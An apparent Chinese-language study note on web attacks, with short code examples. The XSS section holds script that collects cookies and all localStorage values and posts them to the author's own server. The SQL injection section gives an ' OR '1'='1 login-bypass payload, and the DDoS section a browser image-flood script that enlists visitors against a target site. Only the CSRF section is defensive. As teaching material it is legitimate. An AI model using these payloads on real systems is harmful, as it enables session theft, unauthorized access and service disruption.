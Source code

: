 # Web安全機制

## \#XSS\(Cross-site Scripting\)

1.假設網站有一個留言板

![](.gitbook/assets/螢幕快照%202017-02-02%20下午2.02.41.png)

2.但該網站沒有過濾script標籤，而是直接使用innerHTML讓使用者輸入後直接顯示

3.這時假設剛才的test.js 改為 你的網域下的一隻js程式碼，然後該程式碼內含有

```text
var test1 = document.cookie;
function allStorage() {
    var values = [],
        keys = Object.keys(localStorage),
        i = keys.length;

    while ( i-- ) {
        values.push( localStorage.getItem(keys[i]) );
    }

    return values;
}
var test2 = allStorage(); //取得所有localstorage傳給變數test2

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage
```

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

Ex:

```text
$.post('https://我的站點/test',{cookie: test1,localStorage: test2})
```

## \#SQL Injection

```text
var userName = req.body.username;
var passWord = req.body.password;

strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

POST時將資料寫入

```text
userName = "1' OR '1'='1";
與
passWord = "1' OR '1'='1";
```

將導致原本的SQL字串被填為

```text
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

上述語句等同於

```text
strSQL = "SELECT * FROM users;"
```

將會取出所有使用者

[https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A](https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A)

## \#CSRF\(Cross-site request forgery\)

偽造用戶請求像網站發出惡意請求

防範方式:

server 在render畫面時會給出 csrfhash，並隱藏在表單中，之後client端提交，此csrf會跟著送到server並且進行比對

```text
<form method="POST" action="/upload?_csrf={{ csrfhash }}" enctype="multipart/form-data">
  title: <input name="title" />
  file: <input name="file" type="file" />
  <button type="submit">上傳</button>
</form>
```

## \#DDos\(distributed denial-of-service attack\)

中文為:分散式阻斷服務攻擊

假設我們寫如下程式

```text
function imgflood() {  
  var TARGET = 'test.website.com'
  var URI = '/picture?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```

之後瀏覽此網頁的使用者將會每0.01秒產生一個request到目標網站

所以不知情的使用者如果點選了我們的網站，他也會加入對目標網站攻擊的行列

